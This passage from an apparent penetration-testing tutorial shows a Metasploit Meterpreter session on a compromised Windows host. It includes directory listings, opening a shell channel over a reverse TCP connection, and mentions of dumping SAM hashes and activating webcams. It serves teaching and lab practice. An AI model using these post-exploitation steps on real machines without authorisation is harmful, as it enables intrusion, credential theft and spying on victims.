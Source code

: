Pretty nifty. From extracting user hashes from SAM to taking screenshots and activating webcams. All of this is done from the comfort of a Linux-style command line. Exploring further, we also see the option to open a shell channel. This will place us in the actual Windows command-line interface.

**MSF - Meterpreter Navigation**

Payloads

```shell-session
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1` has been created, and we are automatically placed into the CLI for this machine. The channel here represents the connection between our device and the target host, which has been established in a reverse TCP connection (from the target host to us) using a Meterpreter Stager and Stage. The stager was activated on our machine to await a connection request initialized by the Stage payload on the target machine.

Moving into a standard shell on the target is helpful in some cases, but Meterpreter can also navigate and perform actions on the victim machine. So we see that the commands have changed, but we have the same privilege level within the system.

**MSF - Windows CMD**

Payloads

```shell-session
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
```
